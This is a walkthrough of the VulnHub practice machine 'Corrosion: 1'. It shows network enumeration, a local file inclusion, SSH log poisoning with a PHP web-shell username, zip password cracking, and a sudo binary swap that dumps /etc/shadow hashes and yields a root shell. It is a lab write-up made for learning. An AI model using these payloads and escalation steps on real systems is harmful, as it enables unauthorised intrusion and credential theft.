








# Corrosion: 1 (VH)
https://www.vulnhub.com/entry/corrosion-1,730/

## Discovery

### Tool used: arp-scan
<br>

```
sudo arp-scan --localnet

Interface: wlan0, type: EN10MB, MAC: 94:65:9c:78:8c:05, IPv4: 10.30.0.87
Starting arp-scan 1.9.7 with 128 hosts (https://github.com/royhills/arp-scan)
10.30.0.89	08:00:27:2e:c9:01	PCS Systemtechnik GmbH

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 128 hosts scanned in 1.723 seconds (74.29 hosts/sec). 3 responded
```

## Port scan

### Tool used: nmap
<br>

```
nmap -T4 -sV -p- corrosion

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-27 20:42 CDT
Nmap scan report for corrosion (10.30.0.89)
Host is up (0.00055s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Ubuntu 5ubuntu1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds
```

## HTTP enumeration

### Tool used: gobuster
<br>

```
gobuster dir --url http://corrosion --wordlist /usr/share/wordlists/dirb/common.txt 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://corrosion
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/27 20:43:43 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/.hta                 (Status: 403) [Size: 274]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 274]  
/tasks                (Status: 301) [Size: 306] [--> http://corrosion/tasks/]
                                                                             
===============================================================
2022/08/27 20:43:46 Finished
===============================================================
```

Browsing the URL shows the default Apache2 page:<br><br>



Next, we look at "/tasks":<br><br>

<br><br>

Not *too* helpful, but it is a start. We switch back to a different directory mapping tool (and another wordlist!) to see if we missed something. *dirbuster* and a "dirbuster-wordlist" gives us another directory - /blog-post:<br><br>



This image might contain some useful exif data:<br><br>


It did not contain any useful exif data:<br><br>

```
exif image.jpg 

Corrupt data
The data provided does not follow the specification.
ExifLoader: The data supplied does not seem to contain EXIF data.
```

We check out "/archives". Inside, there is a php script - randylogs.php - that does not seem to do anything. So, we fire up Burp and start playing around. Remember how the to-do list mentioned auth.log permissions? As it turns out, this server is susceptible to Local File Inclusion (LFI). We are able to view auth.log using "?file=/var/log/auth.log":<br><br>



## Privilege escalation

We can take advantage of this access and utilize SSH log poisoning through LFI by attempting to login via SSH with a fake user that contains malicious PHP code:<br><br>

```
ssh '<?php system($_GET['c']); ?>'@corrosion
<?php system($_GET[c]); ?>@corrosion's password: 
Permission denied, please try again.
```

Now we can test the code by appending a command to the LFI string:<br><br>



We can see that appending "&c=id" executed the *id* command and appended it to auth.log. So, the next step is to setup a listener and connect back to our machine to get shell access:<br><br>



Once we are in, we setup a simple webserver, and download LinPeas.sh to the host to search for vulnerabilities:<br><br>



We see an interesting file - user_backup.zip - in "/var/backups". We download it to our local machine and try to see what is inside. Unfortunately, it is password protected. Fortunately, we have *john* to help with that!<br><br>

```
zip2john

zip2john user_backup.zip > hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

--------------------------------------------------------------------------
The library attempted to open the following supporting CUDA libraries,
but each of them failed.  CUDA-aware support is disabled.
libcuda.so.1: cannot open shared object file: No such file or directory
libcuda.dylib: cannot open shared object file: No such file or directory
/usr/lib64/libcuda.so.1: cannot open shared object file: No such file or directory
/usr/lib64/libcuda.dylib: cannot open shared object file: No such file or directory
If you are not interested in CUDA-aware support, then run with
--mca opal_warn_on_missing_libcuda 0 to suppress this message.  If you are interested
in CUDA-aware support, then try setting LD_LIBRARY_PATH to the location
of libcuda.so.1 to get passed this issue.
--------------------------------------------------------------------------
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!randybaby       (user_backup.zip)
1g 0:00:00:01 DONE (2022-08-30 02:22) 0.8196g/s 11750Kp/s 11750Kc/s 11750KC/s #@VTVZ180..!jonas
Use the "--show" option to display all of the cracked passwords reliably
Session completed

***********
```

Inside the zip file are a few files as seen below:<br><br>

```
unzip user_backup.zip 

Archive:  user_backup.zip
[user_backup.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: id_rsa.pub              
 extracting: my_password.txt         
  inflating: easysysinfo.c           

cat my_password.txt 

randylovesgoldfish1998
```

Earlier, using LFI, we viewed "/etc/passwd" and determined there was a user named *randy*. Naturally, we try to SSH using *randy* and the password we just found:<br><br>

```
ssh randy@corrosion

randy@corrosion's password: 
Welcome to Ubuntu 21.04 (GNU/Linux 5.11.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

119 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable
```

First, we get the user.txt flag from randy:<br><br>

```
cat user.txt

98342721012390839081
```

Next, we see what kind of sudo permissions randy has:<br><br>

```
randy@corrosion:~/tools$ sudo -l

Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /home/randy/tools/easysysinfo
```

Running "~/tools/easysysinfo" is not very exciting:<br><br>

```
randy@corrosion:~/tools$ ./easysysinfo
Tue Aug 30 01:38:52 AM MDT 2022
127.0.0.1	localhost


# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
Linux corrosion 5.11.0-25-generic #27-Ubuntu SMP Fri Jul 9 23:06:29 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

At this point, various walkthroughs would have you re-compile *easysysinfo* from the zip file to include some malicious code and execute **that** binary. We found a shortcut though. We were able to rename *easysysinfo* and make our own version:<br><br>

```
randy@corrosion:~/tools$ mv easysysinfo easysysinfo2

randy@corrosion:~/tools$ echo "cat /etc/shadow" > easysysinfo

randy@corrosion:~/tools$ chmod +x easysysinfo

randy@corrosion:~/tools$ sudo ./easysysinfo

root:$6$TfVaEeYPwMngxSp9$oyTVT.IULXzdgfK3SFd3fQvQK0i36OBg0EgeMPRm3mE/bVXe7Ern2DcUYM9VxSLBPc7L67YDkHSYnclflhYeC/:18838:0:99999:7:::
daemon:*:18737:0:99999:7:::
bin:*:18737:0:99999:7:::
sys:*:18737:0:99999:7:::
sync:*:18737:0:99999:7:::
games:*:18737:0:99999:7::: 
man:*:18737:0:99999:7:::
lp:*:18737:0:99999:7:::
mail:*:18737:0:99999:7:::
news:*:18737:0:99999:7:::
uucp:*:18737:0:99999:7:::
proxy:*:18737:0:99999:7:::
www-data:$6$MK5CkKYNaIg4OF8n$vhO7qn8BdlQp7UUf35F1YyMgqc26Kx36G8CrspH2X8iF04maOUnJkyKVvK9wBOVkFxZV0tnuTu7HRahO89qs70:18838:0:99999:7:::
```

So, the next logical step is to add some super complex code that will run with sudo privileges:<br><br>



As predicted, it worked and we were able to get the root.txt flag!<br><br>

```
randy@corrosion:~/tools$ sudo ./easysysinfo

root@corrosion:/home/randy/tools# id
uid=0(root) gid=0(root) groups=0(root)

root@corrosion:/home/randy/tools# cd /root

root@corrosion:~# ls
creds   logs.txt    root.txt    snap

root#corrosion:~# cat root.txt
FLAG: 4NJSA99SD7922197D7S90PLAWE 

Congrats! Hope you enjoyed my first machine posted on VulnHub! 
Ping me on twitter @proxyprgrammer for any suggestions.

Youtube: https://www.youtube.com/c/ProxyProgrammer
Twitter: https://twitter.com/proxyprgrammer
```